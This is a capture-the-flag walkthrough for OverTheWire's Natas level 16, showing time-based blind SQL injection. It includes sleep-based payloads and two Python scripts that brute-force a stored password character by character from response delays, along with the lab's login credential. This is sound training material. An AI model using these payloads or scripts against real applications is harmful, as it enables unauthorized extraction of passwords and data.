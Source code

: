 # Level 16 - Level 17

```
Username: natas17
Password: XkEuChE0SbnKBvH1RU7ksIb9uuLmI7sd
URL:      http://natas17.natas.labs.overthewire.org
```

## Overview

Again, we got an input field with a link to the source code.

<figure><img src="../.gitbook/assets/image (133).png" alt=""><figcaption></figcaption></figure>

***

## Source Code Analysis

Form taking a look at the source code we can see that the query is vulnerable to SQL injection.

<figure><img src="../.gitbook/assets/image (134).png" alt=""><figcaption></figcaption></figure>

But all the errors that are to be thrown due to the SQL injection payloads are commented out.

<figure><img src="../.gitbook/assets/image (135).png" alt=""><figcaption></figcaption></figure>

So we can't perform error based or boolean based SQL Injection.

***

## Testing Time Based SQL Injection

So let's opt out for Time Based injection. Let's try the following payload, since we know that there is going to be a user named `natas18` in the table ( from the patterns followed in previous  levels ):

```sql
natas18" AND sleep(5) #
```

You can see that the browser responded with no errors after 5 seconds.

<figure><img src="../.gitbook/assets/image (137).png" alt=""><figcaption></figcaption></figure>

Now, we have confirmed that there is user named `natas18`. Now we have to retrieve the password for  that particular user. To do that we are going to brute force with alphanumerice letters, trying to match the password string, like we did in the last level using regexp, but this time we are going to make use of the SQL operator LIKE.

Let's try the following payload:

```sql
natas18" AND BINARY password LIKE "a%" AND SLEEP(5) #
```

It responded immediately, which means the password doesn't start with the letter a. Let's find the first character by using a simple python script, in which we are going set the value of SLEEP to be 1 and we will filter the responses based on the response time, i.e., if the response time is greater than 1, then that is the first character of the password.

{% code lineNumbers="true" %}
```python
import requests
from requests.auth import HTTPBasicAuth
from string import *
from time import *

characters = ascii_letters + digits

password = ""

session = requests.Session()

for character in characters:
    start_time = time()

    response = session.post(
        "http://natas17.natas.labs.overthewire.org/index.php",
        auth=HTTPBasicAuth(username="natas17",
                            password="XkEuChE0SbnKBvH1RU7ksIb9uuLmI7sd"),
        data={"username": 'natas18" AND BINARY password LIKE "' + character + '%" AND SLEEP(1) # '}
    )

    end_time = time()
    difference = end_time - start_time

    if difference > 1:
        password += character
        break

print("Password: ", password)
```
{% endcode %}

The above script responded with the following output, from which we have found the first letter of the password.&#x20;

<figure><img src="../.gitbook/assets/image (138).png" alt=""><figcaption></figcaption></figure>

***

## Getting the Entire Password

Now its time to fetch the entire password. The following python script will fetch the entire password based on the response time of the requests.

{% code lineNumbers="true" %}
```python
import requests
from requests.auth import HTTPBasicAuth
from string import *
from time import *

characters = ascii_letters + digits

password = ""

session = requests.Session()

while len(password) < 32:
    for character in characters:
        start_time = time()

        response = session.post(
            "http://natas17.natas.labs.overthewire.org/index.php",
            auth=HTTPBasicAuth(username="natas17",
                               password="XkEuChE0SbnKBvH1RU7ksIb9uuLmI7sd"),
            data={"username": 'natas18" AND BINARY password LIKE "' +
                  "".join(password) + character + '%" AND SLEEP(1) # '}
        )

        end_time = time()
        difference = end_time - start_time

        if difference > 1:
            password += character
            break
    print("Password: ", password)
```
{% endcode %}

The password for the next level has been obtained from the output of the above script.

<figure><img src="../.gitbook/assets/image (136).png" alt=""><figcaption></figcaption></figure>
